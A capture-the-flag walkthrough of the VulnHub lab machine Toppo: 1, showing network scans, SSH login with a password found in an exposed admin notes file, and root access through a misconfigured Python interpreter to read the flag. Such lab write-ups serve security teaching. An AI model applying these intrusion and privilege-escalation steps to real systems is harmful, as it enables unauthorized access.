 # Toppo: 1 CTF Walkthrough
[VulnHub URL]
## Description:
```
The Machine isn't hard to own and don't require advanced exploitation .
Level : Beginner
DHCP : activated
Inside the zip you will find a vmdk file , and I think you will be able to use it with any usual virtualization software ( tested with Virtualbox) .
If you have any question : my twitter is [h4d3sw0rm]
Happy Hacking ! 
```
## Contents:

	1. Initial scanning & recon
	2. Obtaining credentials from a leftover file
	3. Getting root thanks to misconfigured permissions

### Initial scanning & recon

I generally use three tools during my initial scanning phase, before I begin to dig into specific services and manual analysis, these three are:
	
 - Nmap
 - Nikto
 - Dirb

Nmap:

```
$ nmap -A -p- -T5 192.168.56.101

Starting Nmap 7.40 ( https://nmap.org ) at 2018-07-26 04:58 BST
Nmap scan report for 192.168.56.101
Host is up (0.0020s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
|   1024 ec:61:97:9f:4d:cb:75:99:59:d4:c1:c4:d4:3e:d9:dc (DSA)
|   2048 89:99:c4:54:9a:18:66:f7:cd:8e:ab:b6:aa:31:2e:c6 (RSA)
|_  256 60:be:dd:8f:1a:d7:a3:f3:fe:21:cc:2f:11:30:7b:0d (ECDSA)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Clean Blog - Start Bootstrap Theme
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          55005/udp  status
|_  100024  1          59668/tcp  status
59668/tcp open  status  1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.55 seconds
```

Nikto:

```
$ perl nikto.pl -host http://192.168.56.101/
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          192.168.56.101
+ Target Hostname:    192.168.56.101
+ Target Port:        80
+ Start Time:         2018-07-26 05:05:53 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.10 (Debian)
+ Server leaks inodes via ETags, header found with file /, fields: 0x1925 0x563f5cf714e80
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
+ OSVDB-3268: /admin/: Directory indexing found.
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3268: /img/: Directory indexing found.
+ OSVDB-3092: /img/: This might be interesting...
+ OSVDB-3268: /mail/: Directory indexing found.
+ OSVDB-3092: /mail/: This might be interesting...
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /manual/images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 6544 items checked: 0 error(s) and 12 item(s) reported on remote host
+ End Time:           2018-07-26 05:06:17 (GMT1) (24 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
The Dirb report didn't yield anything overly important, so it has been omitted from the walkthrough.

From these scans I can determine that the port with the highest chance of exploitability is the HTTP (80) port, the SSH (22) port may come in handy later when valid credentials have been discovered.
The Nikto and Dirb reports both uncovered an `/admin/` directory which is accessible to unauthenticated users.

### Obtaining credentials from a leftover file

Browsing to the `/admin/` directory reveals a file called `notes.txt`:
```
Note to myself :

I need to change my password :/ **12345ted123** is too outdated but the technology isn't my thing i prefer go fishing or watching soccer .
```

So now there's a password available for later, but a username and point of entry is still needed, as there is no evident login form on the website.
Obviously the only visible entry point is through the SSH service.
Considering the admin isn't very computer literate, we can assume that he does what many others like him do, put his username / real name in the password...
**Ted** definitely stands out.
```
$ ssh ted@192.168.56.101
ted@192.168.56.101's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jul 25 23:18:19 2018 from 192.168.56.1
ted@Toppo:~$
```
And of course it works...
```
ted@Toppo:~$ whoami
ted
ted@Toppo:~$ id
uid=1000(ted) gid=1000(ted) groups=1000(ted),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth)
ted@Toppo:~$ cd /root
-bash: cd: /root: Permission denied
```
Sadly Ted isn't root, which is what I need to complete this challenge.

### Getting root thanks to misconfigured permissions

I'm not great with post-exploitation if I'm completely honest and privilege escalation has never been my primary skill.
However, I know to always look for programs that allow me to write and execute system commands on the box.
For example, with this box I quickly checked for Python:
```
ted@Toppo:~$ python --version
Python 2.7.9
ted@Toppo:/$ python
Python 2.7.9 (default, Aug 13 2016, 16:41:35)
[GCC 4.9.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.system("whoami")
root
```
Great, so Python can execute commands as root...
Time to check the `/root/` directory:
```
>>> os.system("cd /root && ls -alt")
total 24
-rw-------  1 root root   53 Apr 15 12:28 .bash_history
drwx------  2 root root 4096 Apr 15 11:40 .
-rw-r--r--  1 root root  397 Apr 15 10:19 flag.txt
drwxr-xr-x 21 root root 4096 Apr 15 10:02 ..
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root  140 Nov 19  2007 .profile
0
```
`flag.txt` is the target for this challenge, so to complete it:
```
>>> os.system("cat /root/flag.txt")
_________                                  
|  _   _  |                                
|_/ | | \_|.--.   _ .--.   _ .--.    .--.  
   | |  / .'`\ \[ '/'`\ \[ '/'`\ \/ .'`\ \
  _| |_ | \__. | | \__/ | | \__/ || \__. |
 |_____| '.__.'  | ;.__/  | ;.__/  '.__.'  
                [__|     [__|              




Congratulations ! there is your flag : 0wnedlab{p4ssi0n_c0me_with_pract1ce}



0
```

[VulnHub URL]: <https://www.vulnhub.com/entry/toppo-1,245/>
[h4d3sw0rm]: <https://twitter.com/h4d3sw0rm>
